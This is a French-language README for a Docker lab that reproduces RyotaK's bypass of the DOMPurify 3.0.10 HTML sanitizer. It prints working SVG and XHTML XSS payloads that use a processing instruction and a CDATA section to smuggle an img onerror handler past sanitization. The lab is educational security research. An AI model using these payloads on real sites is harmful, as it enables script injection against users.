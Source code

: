 # Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

## Lien vers l'article complet

> Un article reprenant le travail de RyotaK concernant le bypass de Dompurify dans sa version 3.0.10.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata)

## Installation

```
docker build -t dompurify-3.0.10-bypass .
docker run -p 3000:3000 dompurify-3.0.10-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG 

Le fichier SVG suivant permet l'exploitation du bypass :
```SVG
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?img > <img src=x onerror="alert(1)"> ?>
</svg>
```
### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```HTML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.10.</p>
    <![CDATA[ ><img src onerror=alert(1) ]]>
</body>
</html>
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/dompurify-3.0.10-bypass-confusion-nodename-and-cdata/demo/demo.gif)